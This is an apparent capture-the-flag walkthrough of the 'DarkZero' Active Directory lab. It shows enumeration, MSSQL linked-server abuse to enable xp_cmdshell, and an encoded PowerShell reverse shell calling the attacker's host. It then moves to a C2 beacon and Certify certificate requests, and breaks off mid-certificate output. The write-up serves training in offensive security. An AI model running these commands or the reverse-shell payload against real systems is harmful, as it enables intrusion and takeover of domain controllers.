





# DarkZero
## Machine info
As is common in real life pentests, you will start the DarkZero box with credentials for the following account john.w / RFulUtONCOL!

```python
john.w:RFulUtONCOL!
```

## Host file setup
```python
sudo nxc smb 10.129.48.21 --generate-hosts-file /etc/hosts 
[sudo] password for kali: 
SMB         10.129.48.21    445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:darkzero.htb) (signing:True) (SMBv1:None) (Null Auth:True)
```

## Enumeration
### Open ports
```python
nmap -p- --min-rate=2000 -sT dc01.darkzero.htb
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-20 17:09 +0100
Nmap scan report for dc01.darkzero.htb (10.129.48.21)
Host is up (0.014s latency).
rDNS record for 10.129.48.21: DC01.darkzero.htb
Not shown: 65513 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
2179/tcp  open  vmrdp
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49664/tcp open  unknown
49666/tcp open  unknown
49676/tcp open  unknown
49677/tcp open  unknown
49897/tcp open  unknown
49926/tcp open  unknown
53177/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 66.26 seconds
```

### Nmap
```python
nmap -p 53,88,135,139,389,445,464,593,636,1433,2179,3268,3269,5985,9389 -A --min-rate=2000 -sT dc01.darkzero.htb
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-20 17:11 +0100
Nmap scan report for dc01.darkzero.htb (10.129.48.21)
Host is up (0.014s latency).
rDNS record for 10.129.48.21: DC01.darkzero.htb

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-20 16:11:52Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: darkzero.htb, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.darkzero.htb
| Not valid before: 2026-08-20T15:56:07
|_Not valid after:  2027-08-20T15:56:07
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: darkzero.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.darkzero.htb
| Not valid before: 2026-08-20T15:56:07
|_Not valid after:  2027-08-20T15:56:07
|_ssl-date: TLS randomness does not represent time
1433/tcp open  ms-sql-s      Microsoft SQL Server 2022 16.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   10.129.48.21:1433: 
|     Target_Name: darkzero
|     NetBIOS_Domain_Name: darkzero
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: darkzero.htb
|     DNS_Computer_Name: DC01.darkzero.htb
|     DNS_Tree_Name: darkzero.htb
|_    Product_Version: 10.0.26100
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-08-20T16:07:37
|_Not valid after:  2056-08-20T16:07:37
| ms-sql-info: 
|   10.129.48.21:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2026-08-20T16:13:16+00:00; +1s from scanner time.
2179/tcp open  vmrdp?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: darkzero.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.darkzero.htb
| Not valid before: 2026-08-20T15:56:07
|_Not valid after:  2027-08-20T15:56:07
|_ssl-date: TLS randomness does not represent time
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: darkzero.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.darkzero.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.darkzero.htb
| Not valid before: 2026-08-20T15:56:07
|_Not valid after:  2027-08-20T15:56:07
|_ssl-date: TLS randomness does not represent time
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|11|2012|2016 (88%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_11 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (88%), Microsoft Windows 11 24H2 (85%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SMB (445)

Null auth is enabled, but cannot use it to enumerate shares or list users

The guest account is also disabled

### Using provided credentials
```python
nxc smb dc01.darkzero.htb -u 'john.w' -p 'RFulUtONCOL!' --smb-timeout 2
SMB         10.129.48.21    445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:darkzero.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.48.21    445    DC01             [+] darkzero.htb\john.w:RFulUtONCOL!
```

The credentials are valid here

```python
nxc smb dc01.darkzero.htb -u 'john.w' -p 'RFulUtONCOL!' --smb-timeout 2 --shares
SMB         10.129.48.21    445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:darkzero.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.48.21    445    DC01             [+] darkzero.htb\john.w:RFulUtONCOL! 
SMB         10.129.48.21    445    DC01             [*] Enumerated shares
SMB         10.129.48.21    445    DC01             Share           Permissions     Remark
SMB         10.129.48.21    445    DC01             -----           -----------     ------
SMB         10.129.48.21    445    DC01             ADMIN$                          Remote Admin
SMB         10.129.48.21    445    DC01             C$                              Default share
SMB         10.129.48.21    445    DC01             IPC$            READ            Remote IPC
SMB         10.129.48.21    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.48.21    445    DC01             SYSVOL          READ            Logon server share 
```

Limited access on shares

```python
nxc smb dc01.darkzero.htb -u 'john.w' -p 'RFulUtONCOL!' --smb-timeout 2 --rid-brute 20000 | grep '(SidTypeUser)' | cut -d '\' -f 2 | cut -d ' ' -f 1 | tee users.txt
Administrator
Guest
krbtgt
DC01$
darkzero-ext$
john.w
```

Ill grab the user list!

There are no kerberoastable accounts

There is no access over WINRM

No password in user descriptions

No password reuse

## Bloodhound

```python
bloodyAD --host dc01.darkzero.htb -d darkzero.htb -u john.w -p 'RFulUtONCOL!' get bloodhound --transitive
[+] Connecting to LDAP server
[+] Connected to LDAP serrver
Dumping schema: 2it [00:00, 30.51it/s]
Generating lookuptable: 81it [00:00, 439.83it/s]
Dumping SDs:  99%|███████████████████████████████████████████████████████████▎| 84/85 [00:01<00:00, 58.76it/s]
Dumping domains: 100%|██████████████████████████████████████████████████████████| 1/1 [00:00<00:00, 19.75it/s]
Dumping users: 100%|███████████████████████████████████████████████████████████| 4/4 [00:00<00:00, 189.24it/s]
Dumping computers: 100%|████████████████████████████████████████████████████████| 1/1 [00:00<00:00, 54.44it/s]
Dumping groups: 100%|███████████████████████████████████████████████████████| 52/52 [00:00<00:00, 1317.04it/s]
Dumping GPOs: 100%|████████████████████████████████████████████████████████████| 2/2 [00:00<00:00, 111.73it/s]
Dumping OUs: 100%|██████████████████████████████████████████████████████████████| 1/1 [00:00<00:00, 56.63it/s]
Dumping Containers: 100%|████████████████████████████████████████████████████| 19/19 [00:00<00:00, 380.53it/s]
[+] Bloodhound data saved to 20260820T164235_Bloodhound.zip
[+] Found 1 trusts
[+] Found trust darkzero.ext (S-1-5-21-1969715525-31638512-2552845157)
[+] Connecting to darkzero.ext (follow_trusts)
[-] Failed to connect to darkzero.ext ([Errno -2] Name or service not known)
[-] If it's a connectivity issue (not auth issue), make sure the hostname resolves to an IP address (eg. modify your /etc/hosts)
```

I always like to run `--transitive` with bloodyAD to detect any trusts and this time it did, but it failed likely because `darkzero.ext` does not exist in `/etc/hosts`

So ill add it and re run this

```python
bloodyAD --host dc01.darkzero.htb -d darkzero.htb -u john.w -p 'RFulUtONCOL!' get bloodhound --transitive
[+] Connecting to LDAP server
[+] Connected to LDAP serrver
Dumping schema: 2it [00:00, 29.59it/s]
Generating lookuptable: 81it [00:00, 448.77it/s]
Dumping SDs:  99%|███████████████████████████████████████████████████████████▎| 84/85 [00:01<00:00, 58.40it/s]
Dumping domains: 100%|██████████████████████████████████████████████████████████| 1/1 [00:00<00:00, 19.52it/s]
Dumping users: 100%|███████████████████████████████████████████████████████████| 4/4 [00:00<00:00, 188.80it/s]
Dumping computers: 100%|████████████████████████████████████████████████████████| 1/1 [00:00<00:00, 55.80it/s]
Dumping groups: 100%|███████████████████████████████████████████████████████| 52/52 [00:00<00:00, 1239.35it/s]
Dumping GPOs: 100%|████████████████████████████████████████████████████████████| 2/2 [00:00<00:00, 108.28it/s]
Dumping OUs: 100%|██████████████████████████████████████████████████████████████| 1/1 [00:00<00:00, 54.03it/s]
Dumping Containers: 100%|████████████████████████████████████████████████████| 19/19 [00:00<00:00, 394.93it/s]
[+] Bloodhound data saved to 20260820T164556_Bloodhound.zip
[+] Found 1 trusts
[+] Found trust darkzero.ext (S-1-5-21-1969715525-31638512-2552845157)
[+] Connecting to darkzero.ext (follow_trusts)
[+] Connected to darkzero.ext (follow_trusts)
[+] Connecting to LDAP server
[+] Connected to LDAP serrver
Dumping schema: 2it [00:00, 30.71it/s]
Generating lookuptable: 81it [00:00, 436.47it/s]
Dumping SDs:  99%|███████████████████████████████████████████████████████████▎| 84/85 [00:01<00:00, 58.51it/s]
Dumping domains: 100%|██████████████████████████████████████████████████████████| 1/1 [00:00<00:00, 19.02it/s]
Dumping users: 100%|███████████████████████████████████████████████████████████| 4/4 [00:00<00:00, 193.81it/s]
Dumping computers: 100%|████████████████████████████████████████████████████████| 1/1 [00:00<00:00, 55.92it/s]
Dumping groups: 100%|███████████████████████████████████████████████████████| 52/52 [00:00<00:00, 1309.52it/s]
Dumping GPOs: 100%|████████████████████████████████████████████████████████████| 2/2 [00:00<00:00, 112.83it/s]
Dumping OUs: 100%|██████████████████████████████████████████████████████████████| 1/1 [00:00<00:00, 57.12it/s]
Dumping Containers: 100%|████████████████████████████████████████████████████| 19/19 [00:00<00:00, 393.81it/s]
[+] Bloodhound data saved to 20260820T164619_Bloodhound.zip
[+] Found 1 trusts
```

Now after adding the other domain i can collect trust data to ingest

But after ingesting this into bloodhound i get an error, after some research its becuase the trust array in the json expects a string and its a number in this instance so ill modify it

https://github.com/FalconForceTeam/SOAPHound/issues/15

This gave me a guide to changing the data, and after ingesting it works



There is a bidirectional trust

There is nothing interesting on my current user!

## MSSQL (1433)

```python
mssqlclient.py darkzero.htb/'john.w':'RFulUtONCOL!'@dc01.darkzero.htb -windows-auth
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01): Line 1: Changed database context to 'master'.
[*] INFO(DC01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (darkzero\john.w  guest@master)>
```

I get access to the MSSQL instance

```python
SQL (darkzero\john.w  guest@master)> enum_links
SRV_NAME            SRV_PROVIDERNAME   SRV_PRODUCT   SRV_DATASOURCE      SRV_PROVIDERSTRING   SRV_LOCATION   SRV_CAT   
-----------------   ----------------   -----------   -----------------   ------------------   ------------   -------   
DC01                SQLNCLI            SQL Server    DC01                NULL                 NULL           NULL      
DC02.darkzero.ext   SQLNCLI            SQL Server    DC02.darkzero.ext   NULL                 NULL           NULL      
Linked Server       Local Login       Is Self Mapping   Remote Login   
-----------------   ---------------   ---------------   ------------   
DC02.darkzero.ext   darkzero\john.w             False   dc01_sql_svc
```

Looks like there is a linked server

## RCE on `dc02`

```python
SQL (darkzero\john.w  guest@master)> EXEC ('SELECT SYSTEM_USER') AT [DC02.darkzero.ext]
               
------------   
dc01_sql_svc   
SQL (darkzero\john.w  guest@master)>
```

I am running as the `dc01_sql_svc` user on the linked server

```python
SQL (darkzero\john.w  guest@master)> EXEC ('SELECT IS_SRVROLEMEMBER(''sysadmin'')') AT [DC02.darkzero.ext]
    
-   
1   
SQL (darkzero\john.w  guest@master)> 
```

It looks like this account on the linked server is a sysadmin, so i should be able to enabled xp_cmdshell

```python
SQL (darkzero\john.w  guest@master)> EXEC ('SELECT name FROM master.sys.databases') AT [DC02.darkzero.ext]
name     
------   
master   
tempdb   
model    
msdb     
SQL (darkzero\john.w  guest@master)>
```

There are also no interesting tables on the linked server

```python
SQL (darkzero\john.w  guest@master)> use_link [dc02.darkzero.ext]
SQL >[dc02.darkzero.ext] (dc01_sql_svc  dbo@master)>
```

Ill switch to the remote server

```python
SQL >[dc02.darkzero.ext] (dc01_sql_svc  dbo@master)> enable_xp_cmdshell
INFO(DC02): Line 196: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
INFO(DC02): Line 196: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL >[dc02.darkzero.ext] (dc01_sql_svc  dbo@master)> xp_cmdshell whoami
output                 
--------------------   
darkzero-ext\svc_sql   
NULL                   
SQL >[dc02.darkzero.ext] (dc01_sql_svc  dbo@master)>
```

Since i am a sysadmin on this server i can enable xp_cmdshell and get me remote code execution

```python
SQL >[dc02.darkzero.ext] (dc01_sql_svc  dbo@master)> xp_cmdshell whoami /priv
output                                                                  
---------------------------------------------------------------------   
NULL                                                                    
PRIVILEGES INFORMATION                                                  
----------------------                                                  
NULL                                                                    
Privilege Name                Description                    State      
============================= ============================== ========   
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled    
SeCreateGlobalPrivilege       Create global objects          Enabled    
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled   
NULL                                                                    
SQL >[dc02.darkzero.ext] (dc01_sql_svc  dbo@master)>
```

I do not have SeImpersonate however

## Shell as `sql_svc` on `dc02`

```python
penelope -p 1337
[+] Listening for reverse shells on 0.0.0.0:1337 -> 127.0.0.1 • 192.168.86.128 • 10.10.14.61
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```

Ill start a listener

```python
SQL >[dc02.darkzero.ext] (dc01_sql_svc  dbo@master)> xp_cmdshell powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4ANgAxACIALAAxADMAMwA3ACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
```

Ill use the base64 encoded powershell reverse shell from revshells 

```python
penelope -p 1337
[+] Listening for reverse shells on 0.0.0.0:1337 -> 127.0.0.1 • 192.168.86.128 • 10.10.14.61
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] => DC02 10.129.48.21 Microsoft_Windows_Server_2022_Datacenter-x64-based_PC 👤 darkzero-ext\svc_sql 😍️ Session ID <1>
[+] Added readline support...
[+] Interacting with session [1] • Readline • Menu key Ctrl-D ⇐
[+] Session log: /home/kali/.penelope/sessions/DC02~10.129.48.21-Microsoft_Windows_Server_2022_Datacenter-x64-based_PC/2026_08_20-19_24_05-388.log
──────────────────────────────────────────────────────────────────────────────────────────────────────────────
PS C:\Windows\system32> whoami
darkzero-ext\svc_sql
PS C:\Windows\system32>
```

I now have a shell!

```python
PS C:\> type Policy_Backup.inf

...[SNIP]...

SeServiceLogonRight = *S-1-5-20,svc_sql,SQLServer2005SQLBrowserUser$DC02,*S-1-5-80-0,*S-1-5-80-2652535364-2169709536-2857650723-2622804123-1107741775,*S-1-5-80-344959196-2060754871-2302487193-2804545603-1466107430,*S-1-5-80-3880718306-3832830129-1677859214-2598158968-1052248003

...[SNIP]...
```

Looks like this user has `SeServiceLogonRight`

This means this user has right to logon as a service

This means if i can get a session with logon type 5 (service logon) it should give me SeImpersonatePrivilege, but i dont know his password at this point, but i should be able to use certify to request a certificate

## C2 session as the `sql_svc` user

So first ill start the teamserver and get connected in the client

Then ill start a listener in adaptix and generate a stageless exe and upload it to the target using my reverse shell then execute it



```python
+--- Task [4cc5bb82] closed ----------------------------------------------------------+

[20/08 20:04:42] ethan [13f8ad6e] beacon > getuid
[20/08 20:04:42] [*] Task: get username of current token
[20/08 20:04:45] [*] Agent called server, sent [12 bytes]
[20/08 20:04:45] [+] You are 'darkzero-ext\svc_sql' (elevated)

+--- Task [13f8ad6e] closed ----------------------------------------------------------+
```

I now have a stable c2 session as this user

Now i can use the `execute-assembly` BOF to run certify through the beacon to get a valid certificate

https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/Certify.exe

Ill download the exe and run it through beacon

## Elevating access to use `SeImpersonatePrivilege`

```python
[20/08 20:13:51] ethan [471b11ef] beacon > execute-assembly /home/kali/htb/darkzero/Certify.exe enum-templates
[20/08 20:13:51] [*] Task: execute .NET assembly
[20/08 20:13:52] [*] Agent called server, sent [972.09 Kb]
[20/08 20:14:11] [+] BOF output

[*] Certificate templates found using the current filter parameters:

    Template Name                         : User
    Enabled                               : True
    Publishing CAs                        : DC02.darkzero.ext\darkzero-ext-DC02-CA
    Schema Version                        : 1
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    Certificate Name Flag                 : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_ALT_REQUIRE_EMAIL, SUBJECT_REQUIRE_EMAIL, SUBJECT_REQUIRE_DIRECTORY_PATH
    Enrollment Flag                       : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Manager Approval Required             : False
    Authorized Signatures Required        : 0
    Extended Key Usage                    : Client Authentication, Encrypting File System, Secure Email
    Certificate Application Policies      : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : darkzero-ext\Domain Admins         S-1-5-21-1969715525-31638512-2552845157-512
                                      darkzero-ext\Domain Users          S-1-5-21-1969715525-31638512-2552845157-513
                      
                darkzero-ext\Enterprise Admins     S-1-5-21-1969715525-31638512-2552845157-519
      Object Control Permissions
        Owner                       : darkzero-ext\Enterprise Admins     S-1-5-21-1969715525-31638512-2552845157-519
        Write Owner                 : darkzero-ext\Domain Admins         S-1-5-21-1969715525-31638512-2552845157-512
                                      darkzero-ext\Enterprise Admins     S-1-5-21-1969715525-31638512-2552845157-519
        Write Dacl                  : darkzero-ext\Domain Admins         S-1-5-21-1969715525-31638512-2552845157-512
                                      darkzero-ext\Enterprise Admins     S-1-5-21-1969715525-31638512-2552845157-519
        Write Property              : darkzero-ext\Domain Admins         S-1-5-21-1969715525-31638512-2552845157-512
                                      darkzero-ext\Enterprise Admins     S-1-5-21-1969715525-31638512-2552845157-519
```

I can use this template to request a certificate

```python
+--- Task [c73966e9] closed ----------------------------------------------------------+

[20/08 20:18:23] ethan [5f3c6c5f] beacon > execute-assembly /home/kali/htb/darkzero/Certify.exe request --ca dc02.darkzero.ext\darkzero-ext-DC02-CA --template User
[20/08 20:18:23] [*] Task: execute .NET assembly
[20/08 20:18:25] [*] Agent called server, sent [972.14 Kb]
[20/08 20:18:38] [+] BOF output


[!] CoInitializeSecurity has already been called. DCOM-related actions may not work as intended.

   _____          _   _  __          
  / ____|        | | (_)/ _|         
 | |     ___ _ __| |_ _| |_ _   _    
 | |    / _ \ '__| __| |  _| | | |   
 | |___|  __/ |  | |_| | | | |_| |   
  \_____\___|_|   \__|_|_|  \__, |   
                             __/ |   
                            |___./   
  v2.0.0                         

[*] Action: Request a certificate

[*] Current user context    : darkzero-ext\svc_sql
[*] No subject name specified, using current context as subject.

[*] Template                : User
[*] Subject                 : CN=svc_sql, CN=Users, DC=darkzero, DC=ext

[*] Certificate Authority   : dc02.darkzero.ext\darkzero-ext-DC02-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 4

[*] Certificate (PFX)       :

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
